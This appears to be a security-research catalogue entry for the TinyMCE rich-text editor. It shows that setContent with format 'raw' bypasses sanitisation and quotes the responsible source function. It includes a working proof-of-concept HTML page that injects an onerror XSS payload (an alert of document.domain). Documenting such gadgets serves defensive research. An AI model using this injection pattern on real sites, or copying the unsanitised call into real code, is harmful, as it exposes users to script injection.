 ```yaml
---
description: The world's \#1 JavaScript library for rich text editing. Available for React, Vue and Angular.
github: tinymce/tinymce
gadgets:
  Latest:
    tags:
      - chrome-browser
      - firefox-browser
      - safari-browser
      - any-tag
      - any-attr
      - func-call-parameter
    pocs:
      - description: |
          In case `format: raw` is used with `editor.setContent` the content is not sanitized. Otherwise, it uses DOMPurify.
        code: |
          <script src="https://cdnjs.cloudflare.com/ajax/libs/tinymce/7.9.1/tinymce.min.js"></script>
          <script>
            tinymce.init({
              selector: "#editor",
              plugins: "media",
              toolbar: "undo redo | bold italic | alignleft aligncenter alignright | media",
              menubar: false,
              setup: function (editor) {
                editor.on("init", function () {
                  // user input
                  editor.setContent("<img src=x onerror=alert(document.domain)>", {format: "raw"});
                });
              }
            });
          </script>

          <textarea id="editor" name="content"></textarea>
    more-info: |
      **Root Cause**

      Source: <a target="_blank" href="https://github.com/tinymce/tinymce/blob/b7a0e50b920961aac4d29619f721a4f915221df1/modules/tinymce/src/core/main/ts/content/SetContentImpl.ts#L66">https://github.com/tinymce/tinymce/blob/b7a0e50b920961aac4d29619f721a4f915221df1/modules/tinymce/src/core/main/ts/content/SetContentImpl.ts#L66</a>

      ```javascript
      const setContentString = (editor: Editor, body: HTMLElement, content: string, args: SetContentArgs): SetContentResult => {
        // [...]

        } else {
          if (args.format !== 'raw') {
            content = HtmlSerializer({ validate: false }, editor.schema).serialize(
              editor.parser.parse(content, { isRootContent: true, insert: true })
            );
          }

          const trimmedHtml = isWsPreserveElement(SugarElement.fromDom(body)) ? content : Tools.trim(content);
          setEditorHtml(editor, trimmedHtml, args.no_selection);

          return { content: trimmedHtml, html: trimmedHtml };
        }
      };
```